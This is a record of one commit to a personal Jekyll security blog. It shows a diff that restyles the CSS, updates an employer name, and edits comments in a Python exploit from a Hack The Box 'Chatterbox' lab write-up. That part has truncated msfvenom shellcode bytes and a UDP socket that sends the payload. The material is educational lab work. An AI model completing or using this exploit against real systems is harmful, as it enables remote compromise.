

Before and after one commit to t3lesph0re/t3lesph0re.github.io, a Jekyll site: the page built from _posts/2025-10-14-htb_chatterbox.md, in a window 1280 px wide. Shown: the part 627-2547 px from the top of the page at 81% size, without its empty margins (228-1051 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
muted syntax highlighting, cleaner shellcode comments, Everforth ECS, non-bold commands

```diff
--- a/_data/experience.yml
+++ b/_data/experience.yml
@@ -1,5 +1,5 @@
 - role: Penetration Tester & Red Team Operator
-  org: ECS Federal
+  org: Everforth ECS
   logo: everforth.png
   location: Remote
   period: Jul 2024 – present
--- a/_posts/2025-10-14-htb_chatterbox.md
+++ b/_posts/2025-10-14-htb_chatterbox.md
@@ -69,13 +69,13 @@
 import socket
 import sys, time
 
-# REPLACE THIS w/ Shellcode
+# Shellcode -- paste the full buf from your msfvenom output here.
+# Truncated below for the writeup; the real payload is a few hundred bytes.
 buf =  ""
 buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
 buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
-# ... full shellcode from the msfvenom output above goes here ...
+# ... rest of the shellcode ...
 buf += "\x65\x6d\x30\x41\x41"
-# REPLACE THIS w/ Shellcode ^
 
 # Create a UDP socket
 sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
--- a/assets/css/retro.css
+++ b/assets/css/retro.css
@@ -247,13 +247,17 @@
 }
 pre code { background:transparent; border:0; padding:0; color:inherit; font-size:inherit; }
 
-/* source code: monochrome so it never clashes; only comments dimmed */
+/* source syntax highlighting -- muted + on-palette (olive strings, earthy keywords) */
 .highlight span { color:#1f1e1a; background:none; }
 .highlight .c, .highlight .c1, .highlight .cm, .highlight .cs { color:#8a877c; font-style:italic; }
+.highlight .k, .highlight .kd, .highlight .kn, .highlight .kp, .highlight .kr, .highlight .kt, .highlight .ow { color:#8a5a2b; }
+.highlight .s, .highlight .s1, .highlight .s2, .highlight .sb, .highlight .sc, .highlight .sd, .highlight .se, .highlight .sh, .highlight .sx, .highlight .sr, .highlight .dl { color:#4a6b3a; }
+.highlight .nf, .highlight .fm { color:#3a5f7a; }
+.highlight .err { color:#a33322; }
 
 /* terminal steps: readable, on-palette */
 .cli-prompt { color:#2d6a4f; font-weight:bold; }
-.cli-cmd    { color:#111;    font-weight:bold; }
+.cli-cmd    { color:#1a1a1a; font-weight:normal; }
 .cli-output { color:#6b6b63; }
 
 /* line-number gutter (code-enhance.js adds .code-block for source langs) */
```
